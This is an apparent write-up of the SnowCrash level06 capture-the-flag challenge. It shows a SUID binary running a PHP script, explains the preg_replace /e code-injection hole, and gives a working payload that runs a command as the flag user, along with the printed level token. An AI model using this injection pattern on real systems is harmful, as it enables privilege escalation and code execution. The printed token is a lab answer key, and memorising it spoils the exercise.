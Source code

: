 1. **File Search**

    ```bash
    level06@SnowCrash:~$ ll
    [...]
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
    [...]
    ```  
    File with SUID permissions, we use the `strings` command to search for readable text:
    ```bash
    level06@SnowCrash:~$ strings level06
    [...]
    /home/user/level06/level06.php
    [...]
    ```  
    The executable `level06` appears to be a program that uses `PHP` to execute the file `/home/user/level06/level06.php`. Since it has the `SUID` bit enabled, any action performed by this program will be executed with the privileges of the `flag06` user. This suggests that the PHP file could be key to exploitation. The next step would be to try to read the `level06.php` file to analyze its content and look for vulnerabilities.

2. **Vulnerability**

    ```bash
    level06@SnowCrash:~$ cat /home/user/level06/level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ``` 
    The file `level06.php` contains PHP code that appears to be vulnerable due to the use of the `preg_replace` function with the `/e` modifier. This modifier allows arbitrary PHP code execution within a regular expression, which can be exploited.
    Code Analysis:
    1. Function `y($m)`:
        - Replaces dots `(.)` with `" x "` and `@` characters with `" y"`.
        - Does not seem dangerous on its own.
    2. Function `x($y, $z)`:
        - Reads the content of a file specified in `$y` using `file_get_contents`.
        - Uses `preg_replace` with the `/e` modifier to execute PHP code within the regular expression.
        - Replaces brackets `[ and ]` with parentheses `( and )`.
    3. Execution:
        - The script takes two command-line arguments `($argv[1] and $argv[2])`.
        - Calls the `x` function with these arguments and displays the result.

3. **Exploitation**

    We create a malicious script that injects PHP code:
    ```bash
    echo '[x ${`getflag`}]' > /tmp/exploit
    ```
    Pass the file as an argument to the script:
    ```bash
    level06@SnowCrash:~$ ./level06 /tmp/exploit
    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
    ```



